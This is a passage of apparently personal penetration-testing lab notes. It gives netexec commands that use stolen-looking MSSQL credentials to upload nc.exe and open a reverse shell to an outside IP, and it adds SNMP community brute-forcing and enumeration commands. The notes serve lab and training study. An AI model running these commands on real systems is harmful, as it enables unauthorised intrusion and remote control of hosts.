 FIleupload and reverse shell after
```
netexec mssql 10.10.113.148 -u sql_svc -p "Dolphin1" --put-file nc.exe C:\Windows\Temp\nc.exe
```

```
netexec mssql 10.10.113.148 -u sql_svc -p "Dolphin1" -x "C:\Windows\Temp\nc.exe 10.10.113.147 4444 -e cmd.exe"
```

## Mongo

connect to mongo db
```
mongosh 172.16.203.30
```

## MySQL

```

```


# SNMP

Bruteforce SNMP community
```
sudo onesixtyone 192.168.165.145
```

SNMP base enum nmap
`sudo nmap 192.168.213.156 -sU -p161 --script="snmp*" -v`

SNMP User Enumeration
`sudo nmap 192.168.165.145 -sU -p161 --script=snmp-win32-users`

netstat enum
` sudo nmap 192.168.165.145 -sU -p161 --script=snmp-netstat`

general dump
```
snmpbulkwalk -c public -v2c 192.168.213.156
```

software enum
```
snmpwalk -c public -v1 192.168.153.149 1.3.6.1.2.1.25.6.3.1.2
```

open ports
``` 
snmpwalk -c security 192.168.103.110 1.3.6.1.2.1.6.13.1.3 -v2c
```

extended output
```
snmpwalk -c security 192.168.103.110 NET-SNMP-EXTEND-MIB:nsExtendOutputFill -v2c
```
